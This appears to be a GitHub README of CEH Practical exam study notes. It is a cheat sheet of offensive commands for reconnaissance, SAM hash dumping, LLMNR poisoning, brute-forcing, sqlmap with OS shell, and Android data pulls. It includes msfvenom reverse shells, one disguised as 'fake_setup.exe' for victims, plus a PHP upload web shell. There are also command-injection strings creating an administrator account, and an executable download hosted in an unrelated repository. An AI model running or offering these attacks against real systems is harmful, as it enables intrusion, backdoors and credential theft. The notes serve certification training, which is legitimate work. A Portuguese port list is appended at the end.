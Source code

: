 # CEH---NOTES
Notes about CEH PRACTICAL EXAM

                                                                                                                          
# Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA <Filename> 10.10.1.1/24 -vv
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>
  
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
* [Advanced IP Scanner](https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) free network scanner to analyze LAN
<img src="AdvancedIPScanner.jpg" />  

</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

#### Hide/unhide text in WhiteSpaces using [snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
### [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images
<img src="https://www.openstego.com/image/screenshot/01.png" width="600" height="400" />
<img src="https://www.openstego.com/image/screenshot/02.png" width="600" height="400" />  
  
### [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
<img src="http://quickcrypto.com/content-images/QuickStego_12_Steganography_Software_Ex_sml.jpg" width="600" height="400" /> 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```

> [Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell
```shell
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  

```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 <img src="https://www.slavasoft.com/images/screenshots/hashcalc.png" />
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 <img src="https://www.bullzip.com/products/md5/dialog.png" />

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
 <img src="Cryptoforge.jpg" />   

### BCTextEncoder: Text Encode/Decode
   
<img src="https://www.jetico.com/file-downloads/web_help/bctextencoder/img/textEncode.png" />   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)
* File → New → Enter Text → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Encrypt 
   
* File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt


   <img src="Crytool.jpg" />   

  </details> 

# Android Hacking
<details>
<summary>ADB</summary>

> [Live Demo of ADB](https://www.youtube.com/watch?v=Hvreb4hjsig)

  ```shell
apt-get update
sudo apt-get install adb -y
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
  
# =================================================================================================== 
  
# Same thing can be done via PhoneSploit tool 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

Enter the Full Path of file to Download
sdcard/Download/secret.txt

  
 ```  
</details>
  
# Covert TCP
<details>
<summary>Covert</summary>
  
> Covert_tcp [source code](covert_tcp.c)
> Live Demo [Covert TCP Live Demo-Youtube](https://www.youtube.com/watch?v=bDcz4qIpiQ4)

```shell
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

```
  
> [Wireshark Capture](Covert_TCP-Capture.pcapng) Hello  This 123 -
 
<img src="covertCapture.jpg" /> 
  
</details>
  
  
<details>
<summary>Misc</summary>
 
```shell
# If Python version returned above is 3.X
# On Windows, try "python -m http.server" or "py -3 -m http.server"
python3 -m http.server
# If Python version returned above is 2.X
python -m SimpleHTTPServer
```
  
> $python -m SimpleHTTPServer 9000
 
> $python3 -m http.server 9000

> nslookup www.domain.com
  
[FTP Server](https://archive.org/download/file-zilla-server-0-9-5/FileZilla_Server_0_9_5.exe) 
  
[YOUTUBE](https://www.youtube.com/watch?v=_4a4qSaIIrw)
  
> Command Injection ( IP| net user Test_user /Add )
  (| net user)
  (| net localgroup Administrators Test_user /Add)
  
File Upload Vul::
file.php
File.php.jpg
Add GIF98 and upload and rename .php.jgp

  Chain attack to execute, go in Command SHell and |copy c:\wamp64\www\DVWA\hackable\uploads\filename.php.jpg c:\wamp64\www\DVWA\hackable\uploads\shell.php
  
> Insert Username Password in Website: [blah;insert into login values ('john','pass123'); --]  
</details>
  
  
## CEH Practical Exam Questions:
https://cutt.ly/ceh-practical-git-udy

## Ports

### Porta 17

	–>QOTD – TCP/UDP – O Serviço de Mensagem do dia (Quote Of The Day) é alvo de Trojans.

### Porta 19

	–> Chargen – TCP/UDP – Chargen é um protocolo de comunicação muito vulnerável, que é usado para amplificar os ataques DdoS, que é um ataque distribuído de negação de serviço.

### Porta 21

	–> FTP – TCP – É utilizado  o FTP que permite que computadores dentro de uma rede promovam trocas de arquivos em massa
